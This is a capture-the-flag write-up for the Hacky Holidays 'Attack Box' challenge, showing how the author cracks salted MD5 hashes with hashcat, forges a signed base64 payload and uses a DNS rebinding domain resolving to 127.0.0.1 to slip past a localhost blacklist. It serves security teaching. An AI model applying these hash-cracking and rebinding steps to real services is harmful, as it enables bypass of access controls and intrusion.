

# Attack Box

**Challenge URL:** https://hackyholidays.h1ctf.com/r3c0n_server_4fdk59

**Credentials** from [Previous Challenge](r3c0n-server.md): `grinchadmin:s4nt4sucks`

## Methodology

It's time to stop Grinch once and for all! The landing page shows 3 "targets" for us to launch an attack on:

<p align="center">
  
</p>

Launching the first one, we see a simulated terminal that is launching a botnet attack on Santa!! 😱

> Is 🎅's IP really at `203.0.113.33`? Time for some 🎁

<p align="center">
  
</p>

Let's see what's actually happening underneath: 🕵️‍♀️

First, a request is sent to `/launch` which contains a base-64 encoded `payload` containing the following values:

```bash
# /launch?payload=eyJ0YXJnZXQiOiIyMDMuMC4xMTMuMzMiLCJoYXNoIjoiNWYyOTQwZDY1Y2E0MTQwY2MxOGQwODc4YmMzOTg5NTUifQ==

$ echo eyJ0YXJnZXQiOiIyMDMuMC4xMTMuMzMiLCJoYXNoIjoiNWYyOTQwZDY1Y2E0MTQwY2MxOGQwODc4YmMzOTg5NTUifQ== | base64 -d; echo

{"target":"203.0.113.33","hash":"5f2940d65ca4140cc18d0878bc398955"}
```

Afterwards, the server will respond with a redirection to a URL that contains the simulated terminal shown above. In this simulated terminal, the following JavaScript can be found:

```js
<script>
  var id = 0;

  function getData() {
    $.getJSON('/attack-box/launch/cf04602bdeef73f3db6898d3d3d1a39d.json?id=' + id, function (resp) {
      $.each(resp, function (k, v) {
        $('div.response').append(v.content + '<br>')
        id = v.id;
        if( v.goto.length > 0 ){
          window.location = v.goto;
        }
      });
    });
  }

  setInterval(function(){ getData(); }, 500);
</script>
```

It appears that the browser will send a JSON request every 0.5 seconds, with the first request setting the `id` parameter to `0`. Subsequent JSON requests will set the `id` parameter to what was received in the server's response.

In the response received, the `content` value will be displayed in the browser (simulated terminal 😎). If there is `goto` value set, the browser will be redirected to that location.

This is an example response from the server:

```json
[
  {
    "id":"8056",
    "content":"Setting Target Information",
    "goto":false
  },
  {
    "id":"8057",
    "content":"Getting Host Information for: 203.0.113.33",
    "goto":false
  },
  {
    "id":"8058",
    "content":"Spinning up botnet",
    "goto":false
  }
]
```

### Time to Get Crackin'!

Well, it seems like there is nothing else to try since the output appears to be controlled. What about targetting the `/launch` end-point? Since the hash appears to be MD5, it might be crackable. The `payload` parameter contains `target` and `hash` parameters. **Maybe there's a chance** that `target` is the salt used for `hash`?

Here are all 3 `hash`, along with the `target`:
```bash
$ cat hashes.txt
5f2940d65ca4140cc18d0878bc398955:203.0.113.33
2814f9c7311a82f1b822585039f62607:203.0.113.53
5aa9b5a497e3918c0e1900b2a2228c38:203.0.113.213
```

We can use [hashcat](https://hashcat.net/) to crack these hashes really quickly with a large [wordlist](https://tools.kali.org/password-attacks/wordlists) like `rockyou.txt`. We will then set the mode to `10`, which specifies the hash are in the format (`md5($pass.$salt)`):

> Full list of supported modes are available at https://hashcat.net/wiki/doku.php?id=example_hashes.

```bash
$ hashcat -m 10 -a 0 hashes.txt /usr/share/wordlists/rockyou.txt

...
5f2940d65ca4140cc18d0878bc398955:203.0.113.33:mrgrinch463
2814f9c7311a82f1b822585039f62607:203.0.113.53:mrgrinch463
5aa9b5a497e3918c0e1900b2a2228c38:203.0.113.213:mrgrinch463
```

Success! I found that the salt used is actually `mrgrinch463`, and the `target` parameter value is the string to hash.

### Counterstrike at Grinch
Well, since we can now generate arbitrary `target` with a valid `hash`, we can now strike back at Grinch before he DDoS Santa!

Trying any form of private IP addresses, or the IP address of `hackyholidays.h1ctf.com` was not successful as there is some kind of DNS resolving on the local end, which prevents it from self-DDoS! 😥

<p align="center">
  
</p>

Well, what if there is a way somehow to subvert this host resolving logic? It might be possible to carry out a [DNS rebinding attack](https://danielmiessler.com/blog/dns-rebinding-explained/). In short, it means that the first time the victim resolves a hostname to IP address, this mapping has a very short TTL (time-to-live), which will expire quickly. Once this initial mapping is gone, the refreshed mapping contains a different IP address. If this happens in the middle of an operation, the IP blacklisting logic would be subverted.

The attack idea is thus:
```
Launching attack against: some-domain.com / 1.3.3.7
ping 1.3.3.7
64 bytes from 1.3.3.7: icmp_seq=1 ttl=118 time=22.2 ms
64 bytes from 1.3.3.7: icmp_seq=2 ttl=118 time=18.2 ms
64 bytes from 1.3.3.7: icmp_seq=2 ttl=118 time=18.2 ms
64 bytes from 127.0.0.1: icmp_seq=2 ttl=118 time=0 ms <-- 💣
```

There are many DNS rebinding tools, but I will be using a free online tool at [https://lock.cmpxchg8b.com/rebinder.html](https://lock.cmpxchg8b.com/rebinder.html). I set the initial IP to `8.8.8.8` and the updated IP to `127.0.0.1`. The output is a domain name that will do the DNS rebinding for us: `08080808.7f000001.rbndr.us`.

<p align="center">
  
</p>

Remember, we have to generate a valid `hash` for our `target` value, which must utilize the salt `mrgrinch463`:
```
String: 08080808.7f000001.rbndr.us
Salt  : mrgrinch463

MD5 hash: abc91b3762573a4da0874ecd0aacb61e
```

Preparing the base-64 encoded `payload` of the `target` address with the `hash`:
```bash
$ echo '{"target":"08080808.7f000001.rbndr.us","hash":"abc91b3762573a4da0874ecd0aacb61e"}' | base64 -w 0; echo

eyJ0YXJnZXQiOiIwODA4MDgwOC43ZjAwMDAwMS5yYm5kci51cyIsImhhc2giOiJhYmM5MWIzNzYyNTczYTRkYTA4NzRlY2QwYWFjYjYxZSJ9Cg==
```

Launching an attack at `/launch` with the `payload` parameter set to the base-64 string will redirect us to the simulated terminal:

<p align="center">
  
</p>

Okay, that is the initial binding of `8.8.8.8`. Let's launch another attack at `/launch` again, using the same `payload`:

<p align="center">
  
</p>

Which showed that the DNS resolved to `127.0.0.1`! After a *near-instantaneous* delay, I was redirected to the **end game**:

<p align="center">
  
</p>

Which worked and gave us the flag!

**Flag**: `flag{ba6586b0-e482-41e6-9a68-caf9941b48a0}`


## Thoughts
Initial foothold was quite random, as the challenges thus far never had to crack any hashes. However, when there is no other way, desperation finds a way (as well as `hashcat`). After finding out about generating arbitrary domain/IP addresses to target, the "DDoS" attack was the hint for the DNS rebinding attack.

Overall, I am glad to be able to make it through this journey alive. 😂

Finally, Merry Christmas to those who celebrate it!🎅 has been saved afterall!
